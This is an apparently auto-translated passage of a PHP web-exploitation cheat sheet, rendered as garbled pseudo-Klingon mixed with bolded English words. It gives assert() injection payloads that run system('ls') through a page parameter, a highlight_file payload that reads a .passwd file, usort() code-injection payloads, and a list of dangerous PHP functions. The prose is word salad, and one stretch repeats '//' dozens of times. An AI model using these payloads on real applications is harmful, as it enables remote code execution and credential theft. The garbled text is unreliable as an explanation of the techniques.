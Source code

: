 **tlhIngan Hol translation:**

**Assert()** vItlhutlh: 

**php** vaj **assert()** vItlhutlh **code** **execute** **ghaH** **string** **written** **allow** **you**. **true** **false** **return** **order** **alter** **execution** **depending**. **user variable** **usually** **string** **middle** **insert**. **Example**:\
`assert("strpos($_GET['page']),'..') === false")` --> **RCE** **get** **case** **you** **do**:
```
?page=a','NeVeR') === false and system('ls') and strpos('a
```
**ghItlh** **code** **syntax** **break** **jatlh** **payload** **add** **'ej** **qay'be'** **fix** **jatlh**. **logic operations** **use** **'ej** "**and"** **%26%26** **|**. **Note** **'ej**, "**or"** **||** **jatlh** **doesn't** **work** **because** **first condition** **true** **payload** **won't** **execute**. **same way** **";"** **doesn't** **work** **because** **payload** **won't** **execute**.

**Other option** **string** **add** **execution** **command**: `'.highlight_file('.passwd').'`

**Other option** **internal code** **have** **if** **variable** **modify** **execution** **alter**: `$file = "hola"`

### **RCE via usort()**

**function** **array** **items** **sort** **specific function** **use** **is**.\
**abuse** **function** **To**:
```php
<?php usort(VALUE, "cmp"); #Being cmp a valid function ?>
VALUE: );phpinfo();#

<?php usort();phpinfo();#, "cmp"); #Being cmp a valid function ?>
```

```php
<?php
function foo($x,$y){
usort(VALUE, "cmp");
}?>
VALUE: );}[PHP CODE];#

<?php
function foo($x,$y){
usort();}phpinfo;#, "cmp");
}?>
```
**//** qarDaq **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//** **//
```php
exec, shell_exec, system, passthru, eval, popen
unserialize, include, file_put_cotents
$_COOKIE | if #This mea
```
**Deobfuscating PHP code**
